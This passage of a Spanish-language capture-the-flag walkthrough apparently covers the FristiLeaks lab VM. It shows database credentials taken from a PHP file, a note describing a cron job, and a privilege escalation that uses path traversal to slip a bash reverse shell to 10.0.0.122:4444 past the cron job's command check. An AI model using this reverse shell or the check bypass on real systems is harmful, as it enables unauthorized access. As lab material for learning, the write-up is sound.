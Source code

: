 Dentro de la carpeta ``/var/www/fristi`` se encuentra un archivo llamado ``checklogin.php`` y contiene las credenciales para la base de datos:

```console
<?php

ob_start();
$host="localhost"; // Host name
$username="eezeepz"; // Mysql username
$password="4ll3maal12#"; // Mysql password
$db_name="hackmenow"; // Database name
$tbl_name="members"; // Table name
```
Yendo a la carpeta ``/home`` se encuentarn 3 carpetas de usuarios: **admin, eezeepz y fristigod**. La única carpeta accesible es la eezeepz y contiene varios comandos o utilidades de Linux y un interesante archivo llamado ``notes.txt``. Nuevamente una nota de Jerry con pistas...

```console
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
```
Entonces el hay un cronjob que busca el archivo ``runthis`` en ``/tmp`` y ejecuta lo que hay, previamente validando que el comando empiece con ``/home/admin``. Después de tratar un par de cosas terminé haciendo que el archivo ``runthis`` ejecute una shell reversa con bash con los privilegios del usuario **admin** lo cual me permitió ingresar a su directorio home.

> **``/home/admin/../../bin/bash -i >& /dev/tcp/10.0.0.122/4444 0>&1``**

Exito!!

Hay 3 archivos importantes dentro de la carpeta home del usuario *admin*:
 - cryptedpass.txt
 - whoisyourgodnow.txt
 - cryptpass.py

El archivo ``cryptedpass.txt`` parece ser el resultante de de una cadena te texto que se la pasa al script ``cryptpass.py`` y no es más que una codificación **Base64** y una posterior **Rot13**:

---

```console
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```

---